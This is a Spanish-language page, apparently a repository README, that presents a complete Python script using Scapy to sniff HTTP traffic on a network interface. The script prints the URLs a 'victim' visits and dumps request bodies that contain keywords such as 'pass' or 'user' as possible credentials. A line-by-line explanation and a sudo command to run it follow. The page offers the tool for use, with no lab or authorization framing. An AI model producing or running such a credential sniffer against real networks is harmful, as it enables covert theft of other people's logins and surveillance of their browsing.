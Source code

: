 Este script es un **sniffer de paquetes HTTP** que permite capturar y mostrar las URL visitadas por un dispositivo en la red, así como cualquier posible información de credenciales que se envíe en texto sin formato. Utiliza la biblioteca **Scapy** para el análisis de paquetes y filtra específicamente los paquetes HTTP.

```python
import scapy.all as scapy
import signal
import sys
from scapy.layers import http
from termcolor import colored


def def_handler(sig,frame):
  print(colored(f"\n[!] Saliendo...\n", 'red'))
  sys.exit(1)

signal.signal(signal.SIGINT, def_handler) 

def process_packet(packet): 
  cred_keywords=["pass", "login","user","mail"] 

  if packet.haslayer(http.HTTPRequest): 
    url= "http://" + packet[http.HTTPRequest].Host.decode() + packet[http.HTTPRequest].Path.decode() 
    print(colored(f"[+] URL viistada por la víctima: {url}", 'blue'))

    if packet.haslayer(scapy.Raw): 
      try:
        response=packet[scapy.Raw].load.decode()
        for keyword in cred_keywords: 
          if keyword in response: 
            print(colored(f"\n[+] Posibles credenciales: {response}","green"))
            break
      except:
        pass


def sniff(interface):
  scapy.sniff(iface=interface, prn=process_packet, store=0)


def main():
  sniff("ens33")


if __name__ == '__main__':
  main()
  ```

## 1. **Importaciones**:

- **`scapy.all`**: Importa todas las funciones de la biblioteca Scapy, que se utiliza para el análisis y la manipulación de paquetes de red.
- **`signal`** y **`sys`**: Para manejar señales del sistema, como la interrupción del programa.
- **`scapy.layers.http`**: Para trabajar específicamente con capas de protocolo HTTP.
- **`termcolor`**: Para imprimir mensajes de colores en la consola.
## 2. **Manejo de la Interrupción del Programa**:

- La función **`def_handler()`** maneja la señal **SIGINT**, que se genera al presionar **Ctrl+C**. Imprime un mensaje de salida y finaliza el programa.
## 3.`process_packet(packet)`:

- Esta función se encarga de procesar cada paquete capturado.
- **Palabras clave**: Define una lista de palabras clave (`cred_keywords`) que pueden indicar la presencia de credenciales (como "pass", "login", "user", "mail").
- **Filtrado de paquetes HTTP**: Comprueba si el paquete contiene una capa **HTTPRequest**.
    - Extrae la URL visitada concatenando el host y el path de la solicitud HTTP.
    - Imprime la URL visitada.
- **Filtrado de datos en bruto**: Si el paquete tiene una capa **Raw**, intenta decodificarla y buscar posibles credenciales.
    - Si se encuentra alguna de las palabras clave, se imprime un mensaje con el contenido que podría contener credenciales.
## 4.`sniff(interface)`:

- Utiliza `scapy.sniff()` para comenzar a capturar paquetes en la interfaz especificada.
- **`iface`**: La interfaz de red en la que se realiza la captura.
- **`prn`**: Función que se llamará para cada paquete capturado (en este caso, `process_packet`).
- **`store=0`**: Indica que no se almacenarán los paquetes en memoria.
## 5.`main()`:

- Llama a `sniff("ens33")`, que inicia la captura de paquetes en la interfaz `ens33`. Debes cambiar el nombre de la interfaz si es necesario.
## 6. **Bloque principal (`if __name__ == '__main__':`)**:

- Inicia la ejecución de la función `main()` si el script se ejecuta directamente.
### **Funcionamiento del Sniffer de Paquetes HTTP**:

1. **Captura de Paquetes**: El script captura los paquetes HTTP que pasan por la interfaz especificada. Esto incluye cualquier solicitud de un dispositivo a servidores web.
    
2. **Extracción de URL**: Cada paquete HTTP que se capture se analiza para extraer la URL visitada, la cual se imprime en un formato resaltado.
    
3. **Detección de Credenciales**: Si hay datos en la capa **Raw** del paquete (que pueden contener credenciales), el script busca las palabras clave definidas. Si encuentra alguna, imprime un mensaje indicando que se han detectado posibles credenciales.
### **Ejemplo de Uso**:

	sudo python3 http_sniffer.py

Esto iniciará el sniffer en la interfaz `ens33`. Asegúrate de tener permisos de superusuario, ya que la captura de paquetes generalmente requiere privilegios elevados.